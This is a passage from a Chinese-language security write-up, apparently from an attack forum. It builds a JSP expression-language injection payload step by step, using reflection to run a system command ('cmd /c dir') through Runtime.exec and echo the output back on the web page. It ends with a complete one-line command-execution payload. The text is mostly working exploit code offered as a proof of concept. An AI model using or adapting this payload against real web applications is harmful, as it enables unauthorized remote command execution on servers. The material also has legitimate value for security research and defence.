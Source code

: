 成功调用，`pageContext`中也有对应的值。

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-069299ac6c43d62a59d362a423e4d6ac2a2c3c34.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-069299ac6c43d62a59d362a423e4d6ac2a2c3c34.png)

有了合适大小的`byte[]`后，接下来要做的事情就很简单了：将`Runtime,inputStream`的`byte[]`传给`heapByteBuffer`。

Poc如下：

```java
......
${pageContext.getAttribute("inputStream").read(heapByteBuffer.array(), 0, inputStreamAvailable)}
......
```

接下来就是将`byte[]`类型的数据转换成`String`，以便能直接在网页上回显。常规的方法就是使用`new String(byte[])`来实现。

这里有几点需要注意：

1. 由于不能直接用`new`，我们只能通过反射来拿到`String`实例
2. 反射调用`String#String`时，需要指定传参类型的对象。但是似乎没有`Byte[].TYPE`这种东西。不过我们可以通过`byteArrType`里的`byte[]`，用`getClass()`得到`byte[]`类型对象。

```jsp
......
//获取byte[]对象
${pageContext.setAttribute("byteArrType", heapByteBuffer.array().getClass())}
//构造一个String
${pageContext.setAttribute("stringClass", Class.forName("java.lang.String"))}
${pageContext.setAttribute("stringConstructor", stringClass.getConstructor(byteArrType))}
${pageContext.setAttribute("stringRes", stringConstructor.newInstance(heapByteBuffer.array()))}
//回显结果
${pageContext.getAttribute("stringRes")}
```

压缩成一句话

```jsp
${pageContext.setAttribute("inputStream", Runtime.getRuntime().exec("cmd /c dir").getInputStream());Thread.sleep(1000);pageContext.setAttribute("inputStreamAvailable", pageContext.getAttribute("inputStream").available());pageContext.setAttribute("byteBufferClass", Class.forName("java.nio.ByteBuffer"));pageContext.setAttribute("allocateMethod", pageContext.getAttribute("byteBufferClass").getMethod("allocate", Integer.TYPE));pageContext.setAttribute("heapByteBuffer", pageContext.getAttribute("allocateMethod").invoke(null, pageContext.getAttribute("inputStreamAvailable")));pageContext.getAttribute("inputStream").read(pageContext.getAttribute("heapByteBuffer").array(), 0, pageContext.getAttribute("inputStreamAvailable"));pageContext.setAttribute("byteArrType", pageContext.getAttribute("heapByteBuffer").array().getClass());pageContext.setAttribute("stringClass", Class.forName("java.lang.String"));pageContext.setAttribute("stringConstructor", pageContext.getAttribute("stringClass").getConstructor(pageContext.getAttribute("byteArrType")));pageContext.setAttribute("stringRes", pageContext.getAttribute("stringConstructor").newInstance(pageContext.getAttribute("heapByteBuffer").array()));pageContext.getAttribute("stringRes")}
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-884484bbb35edaf688d3723665b7d324af1550dc.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-884484bbb35edaf688d3723665b7d324af1550dc.png)